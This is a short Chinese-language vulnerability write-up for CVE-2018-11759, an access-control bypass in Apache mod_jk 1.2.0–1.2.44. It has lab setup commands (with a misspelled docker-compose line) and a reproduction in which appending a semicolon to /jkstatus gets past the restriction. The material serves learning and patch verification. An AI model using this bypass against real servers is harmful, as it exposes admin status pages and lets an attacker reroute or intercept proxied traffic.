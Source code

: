 ```yaml
---
Title: Apache Mod_jk 访问控制权限绕过 CVE-2018-11759
---
```


# Apache Mod_jk 访问控制权限绕过 CVE-2018-11759

## 漏洞描述

Apache Tomcat JK（mod_jk）Connector是美国阿帕奇（Apache）软件基金会的一款为Apache或IIS提供连接后台Tomcat的模块，用以为Apache或IIS服务器提供处理JSP/Servlet的能力。

由于httpd和Tomcat在路径处理规范上存在差异，因此可以绕过Apache mod_jk Connector 1.2.0版本到1.2.44版本上由JkMount httpd指令所定义端点的访问控制限制。
如果一个只有只读权限的jkstatus的接口可以访问的话，那么就有可能能够公开由mod_jk模块给AJP提供服务的内部路由。
如果一个具有读写权限的jkstatus接口可供访问，我们就能通过修改AJP的配置文件中相关配置来劫持或者截断所有经过mod_jk的流量，又或者进行内部的端口扫描。

## 影响版本

<a-checkbox checked>Apache Mod_jk Connector 1.2.0 ~ 1.2.44</a-checkbox></br>

## 环境搭建

```shell
git clone https://github.com/immunIT/CVE-2018-11759.git
docker-conpose up -d
```

![image-20220308101141481](../../../.vuepress/public/img/image-20220308101141481.png)



 

## 漏洞复现

访问 `http://xxx.xxx.xxx.xxx/jkstatus` 显示无权限访问

```
You don't have permission to access /jkstatus on this server.
```

![792b1dd1-a89f-497a-b43b-bae73a7ceff0](../../../.vuepress/public/img/792b1dd1-a89f-497a-b43b-bae73a7ceff0.png)

访问  `http://xxx.xxx.xxx.xxx/jkstatus;` 即可绕过

![8ff51702-0cc0-4d56-bcef-80d838e102cf](../../../.vuepress/public/img/8ff51702-0cc0-4d56-bcef-80d838e102cf.png)
